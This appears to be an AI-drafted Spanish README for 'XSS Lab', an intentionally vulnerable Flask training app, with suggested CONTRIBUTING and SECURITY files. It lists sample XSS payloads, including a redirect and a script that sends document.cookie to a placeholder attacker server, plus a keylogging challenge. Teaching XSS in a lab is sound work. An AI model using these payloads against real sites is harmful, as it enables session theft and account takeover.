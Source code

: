 # 🛡️ XSS Lab Interactive  
*Plataforma colaborativa para aprender y practicar vulnerabilidades XSS de forma segura y controlada*

![GitHub license](https://img.shields.io/github/license/infernoidpl4y/XSSLab)  
![Python](https://img.shields.io/badge/Python-3.x-blue)  
![Flask](https://img.shields.io/badge/Flask-2.x-orange)  
![OWASP](https://img.shields.io/badge/OWASP-Top_10-red)  

---

## 🎯 ¿Qué es XSS Lab?
Un entorno de aprendizaje práctico para estudiantes y profesionales de ciberseguridad, diseñado para **entender y practicar la explotación de vulnerabilidades XSS (Cross-Site Scripting)** en un entorno seguro y controlado.

> "No es solo destruir... es entender cómo funciona la seguridad web"  
> - InfernoidPl4y

---

## 🔧 Características Principales
- ✅ **Vulnerable intencionalmente** para pruebas de seguridad  
- 📚 Entorno controlado para experimentación segura  
- 💬 Sistema de publicaciones con inyección XSS en campo de texto  
- 🎨 Ejemplo predefinido: `!inject` para payloads básicos  
- 📉 Datos reiniciados automáticamente cada 48 horas  
- 🌐 Desplegable en plataformas como PythonAnywhere  
- 🤝 Diseñado para aprendizaje comunitario

---

## 📦 Tecnologías Utilizadas
- 🐍 **Python** (Flask framework)
- 💻 **HTML/CSS** (Frontend interactivo)
- 🔐 Enfoque en OWASP Top 10 (XSS específicamente)

---

## 🚀 Instalación Local

### Requisitos:
- Python 3.x
- pip (Python Package Manager)

### Pasos:
```bash
# Clona el repositorio
git clone https://github.com/infernoidpl4y/XSSLab.git

# Accede al directorio
cd XSSLab

# Instala dependencias
pip install -r requirements.txt

# Ejecuta la aplicación
python app.py
```

---

## 🧪 Cómo Usarlo

1. Abre el navegador en `http://localhost:5000`
2. Crea una publicación con código XSS:
   ```html
   <script>alert('¡XSS básico!')</script>
   ```
3. **Ejemplo rápido:** Escribe `!inject` en el campo XSS para ver un payload predefinido
4. Observa el comportamiento y experimenta con diferentes payloads

---

## ⚠️ Aviso Importante
- **Solo para fines educativos**
- **No introduzcas información sensible**
- **Los datos se reinician periódicamente**

---

## 🧠 Ejemplos de Payloads para Pruebas

### Básico
```html
<script>alert('XSS')</script>
```

### Estilo Visual
```html
<style>
  body { background: red; transition: all 2s; }
</style>
```

### Redirección Silenciosa
```html
<script>window.location.href='https://example.com'</script>
```

### Captura de Cookies (Ejemplo académico)
```html
<script>
  fetch('https://tu-servidor.com/log?data='+document.cookie)
</script>
```

---

## 🧰 Desafíos Recomendados

### Nivel Principiante
- Crea una alerta que salte al cargar la página

### Nivel Intermedio
- Modifica el estilo de otra publicación

### Nivel Avanzado
- Inyecta un script que capture entradas del teclado

---

## 📸 Captura de Pantalla
![XSS Lab Demo](https://via.placeholder.com/800x500?text=XSS+Lab+Interactive+Demo)

---

## 🤝 Contribuciones
¡Las mejoras y contribuciones son bienvenidas!  
Por favor lee el [CONTRIBUTING.md](CONTRIBUTING.md) para más detalles.

---

## 📄 Licencia
MIT License - ver [LICENSE](LICENSE) para detalles

---

## 📬 Contacto
InfernoidPl4y - infernoidpl4y@gmail.com  
Portfolio: [infernoidpl4y.netlify.app](https://infernoidpl4y.netlify.app)
```

### Estructura recomendada:
1. **Licencia MIT** - Archivo `LICENSE`
2. **Guía de Contribución** - Archivo `CONTRIBUTING.md` con:
   ```markdown
   # Guía de Contribución para XSS Lab

   ## 🤝 Cómo Contribuir
   1. Haz fork del repositorio
   2. Crea una rama (`git checkout -b feature/`)
   3. Realiza tus cambios
   4. Haz commit (`git commit -m 'Agrega...'`)
   5. Sube tus cambios (`git push origin feature/`)
   6. Abre un Pull Request

   ## 📋 Estándares de Código
   - Usa PEP8 para estilos en Python
   - Comenta claramente los cambios de seguridad
   - Mantén el enfoque educativo

   ## 📈 Propuestas de Mejora
   - Agregar niveles de dificultad
   - Implementar sistema de puntuación
   - Incluir payloads específicos para diferentes contextos XSS
   ```

### Recomendación adicional:
Agrega un archivo `SECURITY.md` con:
```markdown
# Política de Seguridad para XSS Lab

## 🛡️ Propósito de Seguridad
Este proyecto está diseñado estrictamente para **educación y formación en seguridad web**. El código contiene vulnerabilidades intencionales para permitir el aprendizaje práctico.

## ❗ Advertencia Crítica
- **No** uses este proyecto en entornos de producción
- **No** almacenes información sensible en este laboratorio
- **No** intentes usar esta herramienta para actividades maliciosas

## 📢 Reporte de Vulnerabilidades
Si encuentras vulnerabilidades reales en el sistema (fuera de las intencionales):
- Correo: infernoidpl4y@gmail.com
- GitHub Issues: [Crea un issue](https://github.com/infernoidpl4y/XSSLab/issues)
```

Este README:
1. Tiene un diseño visual atractivo con emojis y badges
2. Explica claramente el propósito educativo
3. Proporciona ejemplos prácticos
4. Incluye advertencias de seguridad importantes
5. Es fácil de seguir para nuevos usuarios
6. Está estructurado para comunidad y contribuyentes

¿Quieres que te ayude a crear la página de GitHub Pages o documentación adicional para este proyecto? 😊
